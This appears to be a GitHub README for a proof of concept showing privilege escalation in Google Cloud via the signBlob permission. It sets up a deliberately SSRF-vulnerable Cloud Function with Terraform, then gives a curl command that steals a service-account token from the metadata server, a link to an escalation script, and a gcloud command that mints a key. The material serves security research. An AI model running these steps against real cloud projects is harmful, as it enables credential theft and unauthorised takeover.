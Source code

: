 # PrivEsc PoC for iam.serviceAccounts.signBlob method for signing URLs

## Setup
1. Create [a new project](https://cloud.google.com/resource-manager/docs/creating-managing-projects#creating_a_project) in Google Cloud environment and choose it as current working one.
2. Enable [Cloud Resourse Manager API](https://console.cloud.google.com/apis/library/cloudresourcemanager.googleapis.com) for your project.
3. Open Cloud Shell and ensure that the current project is the new created one.
4. Download Terraform script and setup a vulnerable to SSRF Cloud Function:
```bash
git clone https://github.com/Horlad/signBlob_PrivEsc_PoC.git
cd signBlob_PrivEsc_PoC/terraform
terraform init -upgrade
terraform apply --var gcp_project_id=YOUR_GCP_PROJECT_ID
```

## Exploitation
1. In Terraform output you can locate a URL to the vulnerable Cloud Function. Exploit SSRF to obtain a temporary token of an attached service account which use `iam.serviceAccounts.signBlob` permission to sign URLs.
```bash
curl https://YOUR.CLOUD.FUNCTION.DOMAIN/?url=http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/token&auth=Metadata-Flavor:%20Google
```
2. The Terraform output you can also find `App Engine` and `Compute Engine` default service accounts which were created automatically during the Cloud Function creation without explicit instructions. You can use them to escalate to `Editor` role via [the Rhinosecurity exploit](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-accessToken.py).
3. To ensure that you obtained the priviliged service account, generate new service account key via next `gcloud` command:
```bash
gcloud iam service-accounts keys create service_account_key.json \
    --iam-account=[DEFAULT_SERVICE_ACCOUNT_EMAIL] --access-token-file=[FILE_WITH_TOKEN]
```

